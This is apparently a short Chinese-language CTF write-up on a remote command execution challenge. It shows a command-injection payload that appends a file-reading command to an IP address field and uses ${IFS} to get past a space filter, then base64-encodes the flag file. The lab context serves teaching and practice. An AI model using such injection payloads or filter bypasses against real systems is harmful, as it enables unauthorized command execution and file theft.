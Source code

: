 先通过ls，发现flag文件。

![image-20240817150043623](远程代码执行/image-20240817150043623.png)	

由于空格被过滤了，但是shell命令可以使用${IFS}来代替空格使用。这样可获取base64编码的值，解码即可得到flag结果

```
payload:
127.0.0.1;cat${IFS}flag_49488560443.php|base64
```

![image-20240817150150508](远程代码执行/image-20240817150150508.png)	

